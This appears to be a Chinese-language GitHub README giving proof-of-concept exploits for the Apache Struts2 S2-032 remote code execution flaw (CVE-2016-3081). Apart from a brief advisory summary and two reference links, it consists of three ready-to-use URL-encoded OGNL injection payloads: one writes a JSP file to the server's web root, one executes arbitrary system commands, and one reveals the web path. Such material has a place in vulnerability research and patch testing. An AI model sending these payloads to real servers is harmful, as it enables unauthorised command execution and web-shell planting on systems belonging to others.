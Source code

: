 2016年4月21 Apache Struts2 官方发布了一份安全公告: 服务在开启动态方法调用的情况下可以远程执行任意命令,官方编号 S2-032,CVE编号 CVE-2016-3081

# 漏洞利用流程
客户端请求 http://{webSiteIP.webApp}:{portNum}/{vul.action}?method={malCmdStr}

# POC
### 上传文件
```
method:%23_memberAccess%[email]3d@ognl.OgnlContext[/email]@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23path%3d%23req.getRealPath(%23parameters.pp[0]),new%20java.io.BufferedWriter(new%20java.io.FileWriter(%23path%2b%23parameters.shellname[0]).append(%23parameters.shellContent[0])).close(),%23w.print(%23path),%23w.close(),1?%23xx:%23request.toString&shellname=uptest.jsp&shellContent=UpFile_test&encoding=UTF-8&pp=%2f
```

### 执行命令
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=id&pp=\\A&ppp=%20&encoding=UTF-8
```

### 获取web路径
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest%28%29,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29,%23res.setCharacterEncoding%28%23parameters.encoding[0]%29,%23path%3d%23req.getRealPath%28%23parameters.pp[0]%29,%23w%3d%23res.getWriter%28%29,%23w.print%28%23path%29,1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8
```

# 参考
[Struts2 漏洞分析及如何提前预防](http://my.oschina.net/secisland/blog/668647?fromerr=7rH2lggd#OSC_h4_2)
[WoonYun - Struts2方法调用远程代码执行漏洞](http://drops.wooyun.org/papers/15430)

